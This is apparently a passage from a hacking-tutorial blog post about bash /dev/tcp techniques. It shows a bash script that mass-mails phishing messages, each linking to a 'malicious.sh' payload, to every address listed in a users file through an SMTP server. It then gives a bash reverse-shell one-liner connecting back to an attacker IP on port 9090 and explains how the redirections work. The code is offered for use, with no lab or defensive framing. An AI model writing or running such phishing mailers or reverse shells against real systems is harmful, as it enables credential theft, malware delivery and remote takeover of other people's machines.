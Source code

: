 ```bash
#!/bin/bash

exec 3<>/dev/tcp/127.0.0.1/25
while read -r user;
do
    echo "EHLO maerih.io" >&3
    sleep 0.2
    echo "MAIL FROM: me@example.com" >&3
    sleep 0.2
    echo "RCPT TO: $user@target.com" >&3
    sleep 0.2
    echo "DATA" >&3
    sleep 0.2
    echo "Please click <a href='http://10.20.30.40/malicious.sh'>here</a>" >&3
    sleep 0.2
    echo "." >&3
done < ./users.txt
```

Sweet! Now is that the best way to do this? Absolutely not. First of all, in my testing this was very spotty as sometimes the MTA I used (in this case, postfix) would trip up over certain lines and throw an error. I think it was because it just send a ton of data in a huge block without waiting on anything, hence all the sleep statements. A better way of doing it is using an actual mail client to send these, but a more fun way of doing it is using pexpect from python! But that's for another article.

## Reverse Shells

These have been done over and over again, so I won't offer much more here. But my favorite reverse shell is using bash:

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/your.ip.here/9090 0>&1'
```

If you can get a remote host to run that, it should connect back to you on port 9090. I can do my best to explain it a bit though.

First of all, bash is invoked twice here. The reason is because if I run just this:

```bash
/bin/bash -i >& /dev/tcp/your.ip.here/9090 0>&1
```

Then this command will only work *if I'm invoking it from within an already-running bash shell.* The reason for that is because the concept of `/dev/tcp` exists only within bash, so if I run the above from within `sh` or `zsh` or something similar, it will have no idea what `/dev/tcp` is referring to, and thus bomb out. It will tell `/bin/bash` to start interactively to somewhere that doesn't exist, and it will fail. Wrapping the above in `/bin/bash -c 'etc etc'` will invoke a new bash shell, and then invoke bash *again* within the first bash shell's `/dev/tcp` object, directive STDOUT and STDIN back and forth through the tunnel.

In the case of the above, `>&` redirects STDOUT and STDERR to the TCP endpoint specified, and `0>&1` redirects STDIN to the same.
